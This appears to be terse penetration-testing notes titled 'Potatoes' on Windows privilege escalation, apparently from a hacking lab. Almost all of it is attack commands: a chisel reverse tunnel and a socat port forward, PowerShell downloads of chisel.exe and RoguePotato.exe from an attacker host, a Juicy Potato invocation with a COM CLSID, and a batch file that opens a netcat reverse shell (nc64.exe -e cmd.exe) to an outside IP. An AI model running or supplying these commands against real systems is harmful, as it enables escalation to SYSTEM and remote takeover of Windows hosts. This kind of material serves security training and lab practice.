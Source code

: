 # Potatoes

setup chisel - server and client

```text
sudo ./chisel server -p 9001 --reverse

invoke-webrequest -uri 'http://10.10.14.64:81/chisel.exe' -outfile chisel.exe
.\chisel.exe client 10.10.14.64:9001 R:9999:127.0.0.1:9999
```

```text
socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999
```

download rogue potato to the windows box

```text
invoke-webrequest -uri 'http://10.10.14.64:81/RoguePotato.exe' -outfile .\rp.exe
```

### Juicy Potato

```text
.\jp.exe -t * -p "C:\users\destitute\desktop\run.bat" -l 9999 -c '{8BC3F05E-D86B-11D0-A075-00C04FB68820}'

PS C:\users\destitute\desktop> type run.bat
C:\users\destitute\desktop\nc64.exe 10.10.14.28 4243 -e cmd.exe
```

